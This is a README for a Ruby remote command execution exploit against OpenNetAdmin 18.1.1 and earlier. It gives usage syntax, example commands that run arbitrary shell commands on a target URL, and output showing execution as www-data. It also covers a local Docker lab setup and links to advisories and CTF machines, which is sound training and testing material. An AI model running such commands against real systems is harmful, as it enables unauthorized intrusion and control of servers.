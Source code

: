 # OpenNetAdmin RCE exploit

> OpenNetAdmin 8.5.14 <= 18.1.1 - Remote Command Execution

[[PacketStorm](https://packetstormsecurity.com/files/162516/OpenNetAdmin-18.1.1-Remote-Command-Execution.html)] - [[WLB-2021050034](https://cxsecurity.com/issue/WLB-2021050034)]

## Usage

```
$ ruby exploit.rb -h
OpenNetAdmin 8.5.14 <= 18.1.1 - Remote Command Execution

Usage:
  exploit.rb exploit <url> <cmd> [--debug]
  exploit.rb version <url> [--debug]
  exploit.rb -h | --help

exploit:      Exploit the RCE vuln
version:      Try to fetch OpenNetAdmin version

Options:
  <url>       Root URL (base path) including HTTP scheme, port and root folder
  <cmd>       Command to execute on the target
  --debug     Display arguments
  -h, --help  Show this screen

Examples:
  exploit.rb exploit http://example.org id
  exploit.rb exploit https://example.org:5000/ona 'touch hackproof'
  exploit.rb version https://example.org:5000/ona
```

Exploit example:

```
$ ruby exploit.rb exploit http://localhost:8667/ona/ id
[+] Command output:

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Version fetching example:

```
$ ruby exploit.rb version http://localhost:8667/ona/
18.1.1
```

## Requirements

- [httpx](https://gitlab.com/honeyryderchuck/httpx)
- [docopt.rb](https://github.com/docopt/docopt.rb)

Example using gem:

```
$ gem install httpx docopt
```

## Docker deployment of the vulnerable software

The docker container requires that `/etc/localtime` and `/etc/localtime` are set on your host, so that PHP can use them to get the right timezone info.

Warning: of course this setup is not suited for production usage!

## With docker-compose (recommended)

Start the containers and launch the config script.
```
$ sudo docker-compose up -d
$ sudo docker exec -ti ona-app ./init_conf.sh
$ sudo docker restart ona-app
```

Then follow [ONA Web Installation guide](https://github.com/opennetadmin/ona/wiki/Install#web-install-method) to complete your setup:
http://localhost:8667/ona/.

- use `sudo docker inspect ona-db | grep IPAddress` to get the bridged IP address of the mariadb container
- re-use the root mysql pass: `58z5J94GBcM8Hx`
- set any random app db user pass: `dDqE4bka4ntUqF`

Now the app default creds will be: `admin` / `admin`. But we won't need them.

## With docker alone

Download, install and start ONA:

```
$ sudo docker pull raabf/ona:v18.1.1
$ sudo docker run -d --publish 127.0.0.1:8667:80 -v /etc/timezone:/etc/timezone:ro -v /etc/localtime:/etc/localtime:ro --name ona-app raabf/ona:v18.1.1
$ sudo docker exec -ti ona-app ./init_conf.sh
$ sudo docker restart ona-app
```

Then install a database (MariaDB MySQL):

```
$ sudo docker pull mariadb:10.5
$ sudo docker run -p 127.0.0.1:3306:3306 --name ona-db -e MYSQL_ROOT_PASSWORD=58z5J94GBcM8Hx -d mariadb:10.5
```

Finally follow the same setup step as for docker-compose method.

## References

This is a better re-write of the original exploit [[EDB-47691]][1] [[PacketStorm]][2].

Some great analysis of the orginal exploit and vulnerability:

- [zacheller.dev](https://zacheller.dev/open-net-admin)
- [medium.com - r3d-buck3t](https://medium.com/r3d-buck3t/remote-code-execution-in-opennetadmin-5d5a53b1e67)

Challenges using the vulnerable software:

- [VulnHub - five86: 1](https://www.vulnhub.com/entry/five86-1,417/)
- [HackTheBox - OpenAdmin](https://www.hackthebox.eu/home/machines/profile/222), [OpenAdmin Write-Up](https://blog.raw.pm/en/HackTheBox-OpenAdmin-write-up/)

OpenNetAdmin: [source][3] - [vulnerable version tarball][4].

Metasploit: [EDB-47772][5] - [updated version][6]

[1]:https://www.exploit-db.com/exploits/47691
[2]:https://packetstormsecurity.com/files/155406/OpenNetAdmin-18.1.1-Remote-Code-Execution.html
[3]:https://github.com/opennetadmin/ona
[4]:https://github.com/opennetadmin/ona/archive/refs/tags/v18.1.1.tar.gz
[5]:https://www.exploit-db.com/exploits/47772
[6]:https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/unix/webapp/opennetadmin_ping_cmd_injection.rb
